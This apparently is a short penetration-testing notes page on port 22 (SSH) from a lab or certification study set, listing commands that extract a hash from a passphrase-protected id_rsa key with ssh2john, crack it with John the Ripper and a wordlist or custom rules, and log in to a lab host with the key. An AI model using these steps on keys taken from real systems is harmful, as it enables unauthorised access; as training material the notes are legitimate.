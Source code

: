 # 22 - SSH

* id\_rsa - if password is require use ssh2john to crack it

```sh
chmod 600 id_rsa
```

```
ssh2john id_rsa > ssh.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```



{% code overflow="wrap" %}
```sh
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
{% endcode %}

```sh
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

```
ssh -i id_rsa daniela@192.168.50.244
```

